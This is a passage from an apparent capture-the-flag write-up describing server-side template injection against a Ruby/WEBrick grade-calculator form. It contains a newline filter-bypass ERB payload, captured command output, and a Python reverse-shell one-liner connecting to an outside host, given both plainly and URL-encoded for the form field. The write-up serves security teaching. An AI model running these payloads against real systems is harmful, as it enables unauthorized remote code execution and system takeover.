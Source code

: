 The form was tested for Server-Side Template Injection (SSTI) due to the Ruby/WEBrick backend, which likely uses ERB templates. Initial tests with payloads like `<%= 7 * 7 %>` in the `category1` field failed, returning "Malicious Input Detected," indicating input sanitization.

![images (38)](images (38).png)
![images (39)](images (39).png)

Using Burp Suite, a POST request was intercepted:

```http
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Type: application/x-www-form-urlencoded
Content-Length: 177

category1=TEST&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

![images (40)](images (40).png)

Testing various SSTI payloads (e.g., `<%= system("whoami") %>`) triggered the filter. However, appending a URL-encoded newline (`%0a`) bypassed the sanitization:

```bash
category1=TEST%0a<%25%3d%60id%60%25>&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

This executed `id`, displaying `uid=1000(susan) gid=1000(susan)` in the response, confirming SSTI.

![images (48)](images (48).png)

---

## Web Exploitation

### Reverse Shell via SSTI

To escalate to remote code execution (RCE), a reverse shell payload was crafted using a Python-based shell from [revshells.com](https://www.revshells.com/):

```bash
export RHOST="10.10.16.48";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

URL-encoded payload:

```bash
category1=TEST%0a<%25%3d%60export%20RHOST%3D%2210.10.16.48%22%3Bexport%20RPORT%3D9001%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27%60%25>&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

